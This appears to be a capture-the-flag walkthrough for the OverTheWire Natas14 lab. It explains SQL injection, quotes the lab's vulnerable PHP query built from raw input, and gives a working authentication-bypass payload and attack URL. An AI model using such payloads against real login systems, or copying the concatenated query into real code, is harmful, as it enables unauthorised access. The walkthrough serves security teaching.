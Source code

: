 # 🔐 Natas14 Walkthrough

We’re presented with a login form. This hints that **SQL Injection** might be the intended path forward.


## 💡 What is SQL Injection?

SQL Injection is a technique used to manipulate a website’s database through its input fields.

### 🔎 Example

Imagine a login system with a SQL query like this:

```php
SELECT * FROM users WHERE username = "$username" AND password = "$password";
```

Now suppose the attacker enters the following credentials:

```
username: admin  
password: password" OR "1 --
```

The query becomes:

```php
SELECT * FROM users WHERE username = "admin" AND password = "password" OR "1" --";
```

Let's break it down:
- `"password"` ends the password value.
- `OR "1"` (shorthand for "1" = true) makes the condition always true.
- `--` comments out the rest of the SQL query (optional, but often helpful).

So the condition simplifies to:

```
username = "admin" AND (false) OR (true)
```

Which effectively bypasses the password check and logs in as `admin`.

## ✅ Exploit

Now, let’s check the [View sourcecode](http://natas14.natas.labs.overthewire.org/index-source.html) for Natas14.

From the source, we see:

```php
$link=mysqli_connect('localhost', 'natas14', '<censored>');  
mysqli_select_db($link, 'natas14');
```

This confirms that usernames and passwords are stored in a database.

And here’s an interesting part:

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

This enables a "debug mode" if we include `debug` as a URL parameter. 
This lets us **see the SQL query** that gets executed — super useful!

Try opening this in your browser:

```
http://natas14.natas.labs.overthewire.org/index.php?username=&password=&debug
```

You’ll see the SQL query being built with the given parameters.

Now try to put something into the `password` and `username` variables:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

You should see your input on the website screen. Making it easier to manipulate the sql injection with `""`.

## 🐛 The Vulnerable Code

The vulnerable line is:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

This directly inserts raw user input into the SQL query — a classic SQL injection vulnerability.

Let’s simplify it by removing the `\` backticks:

```php
SELECT * FROM users WHERE username = "$userProvidedUsername" AND password = "$userProvidedPassword";
```

This is almost identical to our earlier example — and just as vulnerable.

## 🎯 Final Attack

Use the following credentials in the **URL**, not the login form:

```
username: admin  
password: password" OR "1 (as you can see '--' not used)
```

So the final link looks like:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

This will generate a query like:

```php
SELECT * FROM users WHERE username = "admin" AND password = "" OR "1";
```

Which bypasses authentication and logs you in! You should now see the password for **Natas15**. :}

